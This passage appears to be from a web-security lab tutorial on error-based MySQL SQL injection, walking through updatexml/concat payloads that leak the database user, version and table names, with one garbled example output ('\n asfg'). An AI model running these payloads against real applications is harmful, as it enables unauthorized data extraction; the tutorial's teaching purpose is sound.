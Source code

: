 The query we will use if the following:

`updatexml(null,concat(0x0a,'<Data_To_Exfiltrate>'),null)-- -`

The `CONCAT(0x0a, 'user()')` part concatenates two values:

- `0x0a`: This is the hexadecimal representation of the `line feed character (LF)`, which is a new line character.

- `'user()'`: returns the current MySQL user.

- The result of this concatenation is `\n asfg`.

As the first and third parameters are `null`, it will process the second argument normally.

**Query to read exfiltrate `user()`:** `updatexml(null,concat(0x0a,user()),null)-- -`

![Login_user](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Labs/Login_user.png)

**Query to read exfiltrate `version()`:** `updatexml(null,concat(0x0a,version()),null)-- -`

![Login_version](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Labs/Login_version.png)

**Query to read exfiltrate `tables`:** `updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1 )),null)-- -`
